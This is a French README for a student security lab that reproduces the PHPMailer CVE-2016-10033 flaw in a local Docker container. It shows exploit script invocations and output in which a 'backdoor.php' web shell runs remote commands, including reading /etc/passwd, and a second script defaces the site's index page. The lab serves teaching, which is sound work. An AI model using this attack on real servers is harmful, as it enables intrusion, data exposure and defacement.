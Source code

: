 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux) 
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 &
```
Lorsque l'image soit lancé sur un conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte un malicious code dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur une image docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne stérilise pas les valeurs de courrier électronique avant l'exécution, et par conséquent il va nous donner la main d'éxécuter les commandes à distance (Remot shell).
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash second_use_case.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)

